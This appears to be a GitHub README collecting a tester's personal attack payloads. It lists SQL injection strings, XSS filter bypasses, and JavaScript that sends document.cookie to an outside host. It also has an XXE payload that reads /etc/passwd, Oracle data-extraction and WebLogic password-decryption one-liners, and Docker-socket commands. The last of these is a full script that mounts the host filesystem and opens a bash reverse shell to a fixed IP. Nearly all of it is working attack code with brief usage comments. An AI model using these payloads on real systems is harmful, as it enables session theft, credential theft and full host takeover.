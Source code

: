 ## Just a useless set of payload used by me. Saved here for remembrance.
##### Payloads List
* SQL Injection
  * Time Based Blind:
    - `(select(if(user()like(user()),sleep(4),sleep(2))))`
    - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd`
    - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa`
  * Error Based:
    - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")

* Cross Site Scripting
  - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
  - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
  - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
  - `('asd').anchor(prompt());` (just pops a prompt) 
  - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies
  - `var url="https://cors-anywhere.herokuapp.com/https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies and bypass/beat CORS

* XML External Entity
  * ```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/etc/passwd">
<!ENTITY &#x25; eval "
<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
``` (Used when i had no space left for internal entities into payload/dtd) 
  * `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Oracle DB:
  * Oneliner extract data: `echo "QUERY" | /PATH/TO/ORACLE/CLIENT/bin/sqlplus USER/PASSr@IP:PORT/SERVICE`
* WebLogic:
  * Get Username:
    * Get file PATH_OF_WEBLOGIC/config/backup_config.xml and search for "<default-realm>" and get the user there.
  * Dump Password:
    * `echo "domain=\"PATH_OF_WEBLOGICSERVER\";service=weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain);encryption=weblogic.security.internal.encryption.ClearOrEncryptedService(service); print encryption.decrypt(\"{AES}HASH\");exit" | /PATH/OF/wlst.sh`

* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
